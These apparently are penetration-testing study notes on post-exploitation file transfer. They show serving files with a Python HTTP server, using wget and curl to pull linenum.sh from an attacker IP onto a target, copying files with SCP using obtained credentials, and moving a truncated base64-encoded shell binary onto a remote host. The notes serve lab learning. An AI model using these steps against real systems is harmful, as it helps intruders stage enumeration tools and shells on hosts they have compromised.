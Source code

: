 ### Transferring Files
* If we have a meterpreter session we can just use the `upload` command
* However we need to learn the traditional ways as well

### Using wget
* One method is to run a simple Python HTTP server
* Then we can use `wget` or `cURL` to download the files on the remote host

```bash
$ cd /tmp
$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```bash
$ wget http://10.10.14.1:8000/linenum.sh

...SNIP...
Saving to: 'linenum.sh'

linenum.sh 100%[==============================================>] 144.86K  --.-KB/s    in 0.02s

2021-02-08 18:09:19 (8.16 MB/s) - 'linenum.sh' saved [14337/14337]
```

```bash
$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh

100  144k  100  144k    0     0  176k      0 --:--:-- --:--:-- --:--:-- 176k
```

### Using SCP
* If we have obtained ssh user credentials on remote host

```bash
$ scp linenum.sh user@remotehost:/tmp/linenum.sh

user@remotehosts password: *********
linenum.sh
```

### Using Base64
```bash
# Encode the shell binary
$ base64 shell -w 0

f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU
```

```bash
# Run the binary on remote host
$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> | base64 -d > shell
```

### Validating File Transfers
```bash
$ md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell
```